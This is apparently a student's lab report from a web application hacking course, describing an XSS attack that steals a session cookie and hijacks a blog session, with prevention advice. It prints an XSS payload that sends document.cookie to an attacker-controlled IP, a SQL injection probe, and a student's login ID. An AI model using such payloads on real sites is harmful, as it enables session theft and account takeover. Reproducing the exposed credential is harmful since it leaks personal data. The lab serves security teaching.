 # Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Mahitha Kalaga

**Email**: [kalagam1@udayton.edu](kalagam1@udayton.edu)

![Mahitha's headshot](../images/mahi.jpeg)

## Repository Information

Repository's URL: [https://github.com/kalagam1/waph-kalagam1.git](https://github.com/kalagam1/waph-kalagam1.git)

This is a private repository for Mahitha Kalaga to store all the code from the course. The organization of this repository is as follows.

### Labs

[Hands-on exercises in Lectures](labs)

- [Lab 0](labs/lab0): Development Environment Setup
- [Lab 1](labs/lab1): Foundations of the Web
- [Lab 2](labs/lab2): Front-end Web Development
- [Lab 3](labs/lab3): Secure Web Application Development in PHP/MySQL
- [Lab 4](labs/lab4): A Secure Login System with Session Authentication

### Hackathons

- [Hackathon 1](hackathon1): Cross-site Scripting Attacks and Defenses
- [Hackathon 2](hackathon2): SQL Injection Attacks
- [Hackathon 3](hackathon3): Session Hijacking Attacks and Defenses

### Individual Projects

- [Individual Project 1](https://github.com/kalagam1/kalagam1.github.io): Front-end Web Development with a Professional Profile Website and API Integration on github.io cloud service

## Report

## The Hackathon's overview

In Hackathon 3, I explored Cross-Site Scripting (XSS) and session hijacking vulnerabilities to understand how attackers can gain unauthorized access without credentials. I began by injecting a malicious JavaScript payload into the blog application's comment section, which, when clicked by a logged-in user, silently transmitted their session cookie to a remote server I controlled. By retrieving the stolen cookie from the server logs, I was able to hijack the victim's session by manually injecting the session ID into my browser, gaining access without logging in. To test further vulnerabilities, I attempted SQL injection on various input fields post-hijack, but found the system to be resilient—likely due to parameterized queries. This exercise demonstrated the critical importance of input sanitization, secure cookie attributes, and strong session management in protecting web applications.

Hackathon's URL: [Hackathon3](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3)

Demo's URL: [Demo]()

## Task 1: The Attack

### Step 1: Attacker

To initiate the attack, I accessed the blog application, which allows users to post comments without any form of input validation or sanitization. Recognizing this vulnerability, I crafted a cross-site scripting (XSS) payload intended to capture the session cookie of a logged-in user. The injected payload looked like this:

<a onclick=window.location=http://192.168.56.102/?cookie=+document.cookie>click here</a> 

![level 0](../images/h31.jpeg)

This script, when clicked by an authenticated user, would send their session cookie to the attacker’s server. The comment was submitted and publicly displayed on the blog.

### Step 2: Victim

Acting as the victim, I proceeded to log into the blog application using the UD credentials; kalagam1 and the corresponding 9-digit student ID (101831115). Upon successful authentication, I navigated to the comment section where the attacker’s malicious payload had been posted.

![level 0](../images/h32.jpeg)

![level 0](../images/h33.jpeg)

![level 0](../images/h31.jpeg)

### Step 3: Victim

Upon encountering the injected comment, I interacted with the hyperlink under the assumption that it was legitimate. This action triggered the malicious JavaScript embedded within the link, which immediately executed and sent the session cookie associated with the authenticated session to the attacker’s server.

![level 0](../images/h31.jpeg)

![level 0](../images/h34.jpeg)

### Step 4: Attacker

On the attacker’s end, I had configured a listener to capture incoming HTTP requests. Once the victim interacted with the malicious link, the browser issued a request containing the session cookie to the attacker’s server. I verified the success of this action by inspecting the server logs, which revealed the session identifier (PHPSESSID). With this information, I was now equipped to impersonate the victim. To see the cookie information the terminal runs the following command:
Cat /var/log/apache2/access.log

![level 0](../images/h35.jpeg)

### Step 5: Attacker

To hijack the victim’s session, I opened the blog application in a new incognito browser session and did not log in. Instead, I opened the browser’s developer tools and manually added the stolen PHPSESSID cookie under the Application tab. After refreshing the page, the application treated me as the logged-in user, granting access without requiring authentication credentials. This demonstrated a complete session hijack using only the stolen cookie.

![bonus](../images/h36.jpeg)

![bonus](../images/h37.jpeg)

### Bonus: 

Following the successful session hijacking, I explored the application to assess whether it was also vulnerable to SQL injection. I tested the login and other input fields with common SQL injection payloads such as ' OR '1'='1, but the application rejected these inputs or returned appropriate error messages. This behavior suggests that the backend is likely using parameterized queries or has implemented input validation, rendering SQL injection attempts ineffective in this case.

![bonus](../images/h3bonus1.jpeg)

![bonus](../images/h3bonus2.jpeg)

## Task 2: Understanding and Prevention

#### Why the Attack Worked

This attack was possible due to two primary vulnerabilities. First, the blog application lacked proper input sanitization, allowing the injection of executable JavaScript into the comment section. This made it susceptible to cross-site scripting (XSS). Second, the application stored session cookies without setting security flags such as HttpOnly and Secure, making them accessible via JavaScript. The attacker was able to steal this session data and reuse it to bypass authentication completely.

#### How This Can Be Prevented

As a developer, there are several things I’d do differently to prevent this. First, I’d make sure all user inputs—especially in comment sections—are properly sanitized and encoded before being displayed on the site. That would stop most XSS attacks. I’d also set the session cookies to have the HttpOnly, Secure, and SameSite flags so they can’t be accessed through scripts or passed around between sites. Finally, I’d implement proper session expiration and maybe even rotate the session ID on login/logout to reduce the window of attack. These are all practices we’ve been following in our WAPH projects. 
